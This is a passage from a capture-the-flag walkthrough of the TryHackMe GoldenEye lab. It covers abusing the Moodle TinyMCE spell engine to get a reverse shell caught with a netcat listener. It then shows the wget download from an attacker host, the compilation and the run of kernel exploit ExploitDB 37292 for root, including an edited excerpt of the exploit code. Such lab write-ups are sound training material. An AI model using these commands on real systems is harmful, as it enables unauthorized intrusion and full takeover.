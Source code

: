 * Then navigate to *Site administration → Server → Text editors → TinyMCE HTML editor* and set the **Spell engine** to `PSpellShell`.

    ![PSpellShell](/ctf/tryhackme/golden-eye/spellshell.png)

* Set the **Listener** to the following:

    ```bash
    nc -lvnp 4444
    ```

Once triggered via a blog post, we receive a reverse shell as **www-data**.

```bash
uid=33(www-data) gid=33(www-data)
```

## Privilege Escalation (www-data → root)

### Kernel Enumeration

```bash
uname -a
```

```bash
Linux ubuntu 3.13.0-32-generic
```

This kernel version is vulnerable to a published privilege escalation exploit ([ExploitDB 37292](https://www.exploit-db.com/exploits/37292)).

### Exploiting the Kernel

We transfer and compile the exploit:

```bash
wget http://10.14.102.54:8000/37292.c
cc 37292.c -o exploit
./exploit
```

> [!TIP] Compiling with cc instead of gcc
> Since the `gcc` command is not available, we use `cc` instead. We also need to modify the exploit to use `cc` instead of `gcc`.
>
> ```c:line-numbers=116
> lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
> write(lib,LIB,strlen(LIB));
> close(lib);
> lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w"); // [!code --]
> lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w"); // [!code ++]
> if(lib != 0) {
>     fprintf(stderr,"couldn't create dynamic library\n");
>     exit(-1);
> }
> ```
>
Execution spawns a root shell:

```bash
uid=0(root) gid=0(root)
```

With full system compromise, we retrieve the final flag.

> [!IMPORTANT] Root flag
> `/root/.flag.txt`

![Flag](/ctf/tryhackme/golden-eye/xvf7-flag.png)
